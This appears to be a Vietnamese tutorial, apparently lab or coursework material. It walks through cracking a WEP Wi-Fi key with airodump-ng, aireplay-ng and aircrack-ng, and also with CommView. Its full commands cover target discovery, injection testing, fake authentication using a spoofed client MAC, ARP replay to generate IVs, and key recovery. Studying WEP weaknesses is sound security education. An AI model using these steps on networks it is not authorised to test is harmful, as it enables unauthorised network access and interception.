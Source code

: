 # Airodump-ng

Airodump-ng được sử dụng để bắt gói tin wifi và thích hợp để thu thập WEP IV.

## Bước 1 - Tìm đối tượng

Sử dụng **airodump-ng** để tìm kiếm các access point (AP) đang dùng mã hóa WEP:

```sh
$ airodump-ng wlan0mon
```

![Dùng airodump tìm kiếm access point](images/Airodump/ad1.png)

Các thông tin cần chú ý:

- BSSID: **7C:8B:CA:2E:62:CE**
- ESSID: **suhao**
- Channel: **9**

Chuyển channel của wlan0mon sang cùng channel với AP:

```sh
$ iwconfig wlan0mon channel 9
```

## Bước 2 - Kiểm tra packet injection

Bước này thực hiện để chắc chắn rằng card wifi đang nằm trong phạm vi của AP và có thể thực hiện packet injection vào nó.

```sh
aireplay-ng -9 -a 7C:8B:CA:2E:62:CE wlan0mon
```

![Test packet injection](images/Airodump/ad2.png)

Nếu phần trăm kết quả trả về quá thấp hay bằng 0 thì packet injection sẽ không hoạt động.

## Bước 3 - Dùng airodump-ng để bắt WEP IVs

Ở bước này sử dụng công cụ **airodump-ng** để thu thập các IV được AP tạo ra.

```sh
$ airodump-ng -c 9 --bssid 7C:8B:CA:2E:62:CE -w output wlan0mon
```

![Chạy airodump để thu thập IV](images/Airodump/ad3.png)

## Bước 4 - Sử dụng aireplay để fake authentication và chạy arp replay mode.

Bước này nhầm liên tục gửi lại cho AP các gói ARP, với mỗi lần trả lời broadcast gói ARP, AP sẽ tạo ra thêm các IV, vì thế sẽ giúp cho airodump-ng nhanh hơn trong việc thu thập IV.

Để được AP nhận gói, source MAC address phải được associated, nếu không AP sẽ bỏ qua. Dùng MAC của một máy associated (tìm trong mục hiển thị của airodump-ng) và dùng lệnh sau để fake authentication:

```sh
$ aireplay-ng -1 0 -a 7C:8B:CA:2E:62:CE -h A4:E9:75:4B:D6:D9 wlan0mon
```

Fake authentiacation thành công:

![Fake authentication](images/Airodump/ad4.png)

Chạy aireplay-ng ARP replay mode để thực hiện replay gói ARP liên tục (Nếu không nhận được gói ARP nào thì thực hiện deauthentication để khi các máy kết nối lại gửi ARP):

```sh
aireplay-ng -3 -b 7C:8B:CA:2E:62:CE -h A4:E9:75:4B:D6:D9 wlan0mon
```

![Aireplay-ng ARP replay mode](images/Airodump/ad5.png)

## Bước 5 - Dùng aircrack để tìm key

Với 64 bit key cần khoảng 20,000 packets. Khi đủ gói dừng airodump để có file cap.

![Test packet injection](images/Airodump/ad6.png)

Chạy aircrack-ng với file output của airodump-ng để được kết quả.

![Test packet injection](images/Airodump/ad7.png)

# CommView

Đầu tiên, Start capture với Single channel mode (chọn channel của AP mục tiêu) trên CommView.

![CommView](images/Commview/cv1.png)

Sau đó, thực hiện fake authentication và arp packet injection như bước 4 của phần Airodump-ng để AP tạo ra nhiều IV hơn.

![CommView](images/Commview/cv2.png)

Sau khi thu được đủ packet, dừng capture sẽ thu được các file log, tiến hành export những file log thành file cap để đưa vào aircrack.

![CommView](images/Commview/cv3en.png)

Thực hiện tìm key với aircrack-ng và file cap vừa export.

![CommView](images/Commview/cv4rs.png)

